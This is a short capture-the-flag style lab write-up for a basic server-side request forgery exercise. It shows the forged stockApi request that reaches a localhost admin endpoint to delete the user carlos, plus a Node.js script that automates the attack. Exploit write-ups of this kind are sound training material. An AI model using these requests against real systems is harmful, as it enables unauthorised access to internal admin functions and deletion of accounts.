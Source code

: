 # 1 - Basic SSRF Against localhost

### Notes

The "Check stock" feature sends a POST request to /product/stock with the full URL of the endpoint the application uses to check the stock:

```http
POST /product/stock HTTP/1.1

stockApi=http://stock.weliketoshop.net:8080/product/stock/check?productId=1&storeId=1
```

A normal response contains the number of items in stock in the body:

```http
HTTP/1.1 200 OK
Content-Type: text/plain; charset=utf-8
Connection: close
Content-Length: 3

767
```

The path of the admin interface can be found in the HTML. Calling it directly reveals an authenticated view of the admin panel, from which we see the endpoint to delete the user carlos is `/admin/delete?username=carlos`.

```http
POST /product/stock HTTP/1.1

stockApi=http://localhost/admin/delete?username=carlos
```

### Scripted Solution

```javascript
const axios = require('axios').default
require('dotenv').config({ path: './.env' })

/**
 * Run exploit.
 */
async function main() {
  const labUrl = process.env.LAB_URL

  // Delete user 'carlos'
  await axios.post(
    `${labUrl}/product/stock`,
    `stockApi=http://localhost/admin/delete?username=carlos`
  )
}

main()
  .then(() => process.exit(0))
  .catch(error => {
    console.error(error)
    process.exit(1)
  })
```
